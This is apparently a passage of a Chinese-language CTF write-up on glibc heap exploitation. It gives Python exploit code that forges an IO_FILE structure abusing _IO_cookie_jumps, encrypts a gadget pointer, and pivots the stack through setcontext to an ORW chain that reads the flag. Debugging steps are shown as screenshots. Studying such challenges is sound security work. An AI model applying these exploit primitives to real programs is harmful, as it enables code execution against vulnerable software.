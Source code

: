    1. 伪造IO_FILE，_lock中给一个堆地址，后面衔接的结构体中安排好rdi 和 rdx的值，以及加密后的函数指针`encrypt_gadget` ，和进行栈迁移用的rsp rcx寄存器值。这里gadget怎么寻找的看这篇 [exit_hook和setcontext](https://blog.csdn.net/yjh_fnu_ltn/article/details/141786731?spm=1001.2014.3001.5501):

   ```py
   
   # ========== 伪造IO_FILE 1 ==========
   chunk1_addr = heap_addr + 0x2760         #当前large bin 的地址 ==> 伪造IO_FILE的堆地址
   
   file  = p64(0) + p64(0)                  #_IO_read_end    _IO_read_base
   file += p64(0) + p64(0) + p64(0)         #_IO_write_base  _IO_write_ptr _IO_write_end
   file += p64(0) + p64(0)                  #_IO_buf_base    _IO_buf_end
   file += p64(0) * 8                       #_IO_save_base ~ _codecvt
   file += p64(heap_addr) + p64(0)*2        #_lock   _offset  _codecvt
   file += p64(0)                           #_wide_data
   file += p64(0) *3                        #_freeres_list ~ __pad5
   file += p64(0) + p64(0)*2                #_mode  _unused2 (2dword)
   file +=p64(_IO_cookie_jumps_addr + 0x38) #vtable
   
   rdi_data     = chunk1_addr + 0xf0
   rdx_data     = chunk1_addr + 0xf0
   stack_change = chunk1_addr + 0x1c0
   
   gadget = 0x000000000014b760 + libc_base
   encrypt_gadget = rotate_left_64(gadget^xor_key,0x11)
   # ========== cookie ==========
   file += p64(rdi_data)                    #__cookie
   file += p64(encrypt_gadget)              #__io_functions.read
   file += p64(0) + p64(rdx_data)           #_IO_write_base _IO_write_ptr
   file += p64(0)*2 + p64(setcontext_addr)  #gadget中call setcontext_addr
   
   file += p64(0) * 15 + p64(stack_change) + p64(ret) #setcontext+61传参
   file += p64(0) * 4
   ```

   伪造好后的IO_FILE如下，read字段中时加密好的gadget地址：

   ![image-20240907160211125](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409071602365.png)

   逐步调试走一遍：

   这里进入 _IO_cookie_read函数：

   ![image-20240907160330606](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409071603749.png)

   完成gadget指针的解密,并进入gadget，`在gadget中完成rdi到rdx的转换` ，并顺利衔接到setcontext + 61:

   ![image-20240907160431798](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409071604955.png)

   在setcontext + 61中，利用在堆上布置好的寄存器参数，完成栈迁移：

   ![image-20240907160638572](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409071606728.png)

   最后顺利衔接到堆上的ORW，并读取到flag：
